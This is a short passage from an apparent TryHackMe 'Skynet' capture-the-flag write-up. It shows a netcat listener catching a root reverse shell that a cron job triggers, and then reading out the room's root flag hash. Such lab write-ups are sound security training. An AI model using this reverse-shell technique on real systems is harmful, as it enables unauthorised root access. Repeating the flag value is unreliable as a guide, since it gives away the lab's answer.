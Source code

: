 (kali㉿kali)-[~/THM/practice/skynet]
└─$ nc -nvlp 6666 
listening on [any] 6666 ...

#3 --> wait for a minute or so for the cron job to execute again and we should get a root shell
(kali㉿kali)-[~/THM/practice/skynet]
└─$ nc -nvlp 6666 
listening on [any] 6666 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.181.127] 45186
bash: cannot set terminal process group (1720): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html#

root@skynet:~# cat root.txt
cat root.txt
3f0372db24753accc7179a282cd6a949


#there we go:)